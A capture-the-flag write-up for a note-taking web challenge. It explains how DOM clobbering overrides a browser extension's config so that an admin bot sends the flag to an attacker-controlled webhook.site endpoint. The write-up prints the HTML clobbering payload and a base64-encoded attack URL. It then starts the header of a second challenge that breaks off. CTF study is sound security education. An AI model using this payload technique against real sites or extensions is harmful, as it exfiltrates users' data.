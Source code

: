 ## Description
Can you alpha test out our newest note-taking website? (If you find anything, please report it to us using nc cha.hackpack.club 8702)

Also unrelatedly, our website admin is really fond of the wiki-world extension, he uses it all the time, even on his work computer.

I should probably get him to stop using it tho, it hasn't been approved by IT yet.

## Writeup

The web app is a pastebin.

It's possible to report URLs, which are then visited using `Puppeteer`. The bot is configured such to load a custom extension.

The extension look in the page some text according to a regex called `WIKI_REGEX`, and then performs search on Wikipedia, whose URL is defined by a variable called `WIKIPEDIA_SERVER`.

These variables are accessed through `window.config.*`, then we can overwrite them using a technique called [DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering).

Note that the flag is inserted in the path of the request to Wikipedia generated by the `Puppeteer` extension, so if we manage to force the bot to make a request to an attacker-controlled endpoint instead of Wikipedia, we will get the flag.

The payload that we use in our note is:

{% highlight html %}
<a id=config><a id=config name=WIKIPEDIA_SERVER href="https://webhook.site/">
<a id=config><a id=config name=WIKI_REGEX href="BLOB:(.*)">
{% endhighlight %}

We use this form, with the tags `a` and `BLOB`, because they are in the whitelist of `DOMPurify`.

So the final payload, i.e., the URL to report to admin, is:
> `http://website:5000/#PGEgaWQ9Y29uZmlnPjxhIGlkPWNvbmZpZyBuYW1lPVdJS0lQRURJQV9TRVJWRVIgaHJlZj0iaHR0cHM6Ly93ZWJob29rLnNpdGUvIj4KPGEgaWQ9Y29uZmlnPjxhIGlkPWNvbmZpZyBuYW1lPVdJS0lfUkVHRVggaHJlZj0iQkxPQjooLiopIj4=`

# MasterShackle

```
Author: LL3006
Description: "Certification Authority"-like website with multiple vulnerabilities, leading to broken authentication and private key leak
Category: Web
Points: 493
Solves: 8
```

## Description
Hello everyone, this is the Shackle Breaking Barrister!

